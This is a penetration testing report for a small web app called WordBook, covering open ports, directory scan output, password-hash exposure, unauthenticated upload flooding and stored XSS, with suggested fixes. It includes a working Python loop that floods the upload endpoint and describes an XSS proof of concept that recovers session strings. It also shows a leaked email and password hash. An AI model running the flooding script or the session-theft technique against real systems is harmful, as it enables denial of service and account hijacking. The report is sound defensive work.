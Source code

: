## Penetration testing report for WordBook

### 2024-01-31 1p22geo <1p22geodecki@gmail.com>

#### Scope: WordBook application, revision ea4c7c59e7d93ad57d554c7de7a66c2bfa7920c3, branch main, testing/development environment, "minisforum" server

## Testing environment
Penetration testing was conducted on the entire testing/development environment, the server with all running containers and jobs.  
Every single open port and file on the server is in scope, since it might be a vulnerability. 
Of course, the scope also includes the actual application, running in a staging/pre-production configuration - in Docker compose, with all containers, including telemetry, database and app containers.

## Discovered vulnerabilities
- hash exposure (vuln #01)
    - the vulnerability is not fully patched, the /api/post?user=x endpoint variant is still vulnerable and exposes unsalted password hashes together with user information.
    - AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- unlimited file uploads (vuln #03)
    - an adversary can make the app container run out of storage space, and if sufficient measures (such as disk quota or administrator actions) are not taken, no data may be saved on the entire host machine.
    - AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- stored XSS (vuln #04)
    - HTML uploads and links attachments can be used to steal session IDs (especially since they last for 10 days now), or execute other malicious JavaScript code.
    - Any exploitation does require the user to click a link to a attached HTML page.
    - AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N
    

## Attack surface
### Nmap scan result
[download here](./nmap.txt)
As you can see, the Nmap scan revealed a couple open ports:
- port 22 - main SSH server, accepting only public key logins.
- ports 2376, 2377 - docker:dind container for Jenkins and automated Docker builds.
- port 3000 - main WordBook app server, only port needed to forward outwards
- port 4000 - Gitea server, hosting the source code for all projects
- port 4022 - Git/SSH server for git push'ing to Gitea
- port 7860 - Stable Diffusion WebUI, completely irrelevant app, no auth methods, so may be vulnerable
- port 7946 - OpenTelemetry something, propably no need for it to be public
- port 8080 - Jenkins instance, password/login protected
- port 9411 - Zipkin instance for telemetry viewing
- port 16686 - Jaeger UI, more advanced telemetry interface
- ports 32813-32820 - OpenTelemetry endpoints and extensions
    - port 32816 - some JSON-based REST API
- port 50000 - unused OTel Prometheus extension

### Directory scanning result (dirb)
```
+ http://192.168.50.193:3000/cgi-bin/ (CODE:308|SIZE:8)
+ http://192.168.50.193:3000/favicon.ico (CODE:200|SIZE:11694)
+ http://192.168.50.193:3000/in (CODE:307|SIZE:4224)
+ http://192.168.50.193:3000/login (CODE:200|SIZE:6096)
+ http://192.168.50.193:3000/signup (CODE:200|SIZE:6831)
+ http://192.168.50.193:3000/in/cgi-bin/ (CODE:308|SIZE:11)
+ http://192.168.50.193:3000/in/user (CODE:307|SIZE:4951)
+ http://192.168.50.193:3000/api/cgi-bin/ (CODE:308|SIZE:12)
+ http://192.168.50.193:3000/api/check (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/comment (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/login (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/logout (CODE:307|SIZE:0)
+ http://192.168.50.193:3000/api/post (CODE:401|SIZE:31)
+ http://192.168.50.193:3000/api/register (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/upload (CODE:405|SIZE:0)
+ http://192.168.50.193:3000/api/user (CODE:405|SIZE:0)
```
Even though the cgi-bin results are false positives, the scan revealed some interesting API endpoints, which were not usually accessed by front-end JS code.

# Vulnerability report

## Hash exposure
The hash exposure vulnerability is *not fully patched*, the /api/post endpoint, when asked for posts of a specific user will give out their password hash too.

GET /api/post?user=65ba0faa143573f7cd06a5bf&page=0

```json
{
    "posts":[
        {
            "_id":"65ba3153143573f7cd06a5c6",
            "content":"aaaaa",
            "posted":1706701139786,
            "comments":[],
            "up":0,
            "down":0,
            "author":{
                "_id":"65ba0faa143573f7cd06a5bf",
                "email":"1p22geo@gmail.com",
                "name":"bartsz",
                "hash":"489cd5dbc708c7e541de4d7cd91ce6d0f1613573b7fc5b40d3942ccb9555cf35",
                "added":1706692522914,
                "type":"user"
            }
        }
    ]
}
```
Affected components: 
- /api/post endpoint

## Unlimited form uploads
File uploads are still not rate limited or tracked in any way.
```python
import os
host = os.sys.argv[1]
while True:
    os.system(f"curl -b session=x -X POST -F \"file=@./file\"  {host}/api/upload")
```
A simple Python script can be used to DoS the server, uploading a single file repeatedly. 
Somehow file uploads don't even require authorization, and since the app is in a container, disk space runs out pretty quickly.

## Stored XSS
(this one will require user interaction)
You can upload an HTML file in the image upload form, and the markdown editor will try to append it as an image, like so
```markdown
![file.html](file.html)
```
But by removing the initial ! an adversary might make this a clickable link. Someone who clicks on the link, will get redirected to the HTML webpage created by the adversary, hosted in the WordBook domain, accessed through the /api/image endpoint, so CORS protection and others will not take place. The HTML webpage might now contain `<script>` tags, and all malicious code will be executed.
This script will be able to access `document.cookie`, as the session cookie is not HTTP-only.

It gets worse than that. The Next.js bundle for the inital /in request contains the session string. The bundle is minified and optimized, but it can be recovered. This file is a proof of concept.
[file.html](./file.html)
It recovers the session string, without using document.cookie. Even if the session cookie becomes HTTP-only, this one will still work.

# Remediation

## Hash exposure
This vulnerability is genuninely patched in all components, there is just a single vulnerable API endpoint left, propably all there is to do is apply that mongoDB aggregation stage to that one query too.

## Unlimited form uploads
Make a database collection `uploads`, start authenticating file uploads, measure the file size, and check who is uploading the most files. This will require moderator and administrator activity, but any automated solutions for this case will end up banning people who did nothing wrong.

## Stored XSS
This is propably the trickiest vulnerability to mitigate, since it's not about the app being vulerable, but the possibility of injecting a vulnerable component.
Banning all uploads except images would be one way to do it, but disallowing all non-image file attachments is quite a price to pay.
We could make all links `target=_blank download=true` links, and add `Content-Disposition: Attachment` headers to all /api/image requests, to make files only downloadable unless they are images.
Or we could change the content-type of all uploaded files (except images) into `application/octet-stream` to make sure browsers don't try to open them as HTML and show the "what to do with this file" dialog.


---
### Report attachments:
- attachment 01 : nmap scan result
[./nmap.txt](./nmap.txt)
- attachment 02: Python script for file upload DoS
[./script.py](./script.py)
- attachment 03 : HTML file as XSS PoC (actually this link is an example of exploitation)
[./file.html](./file.html)
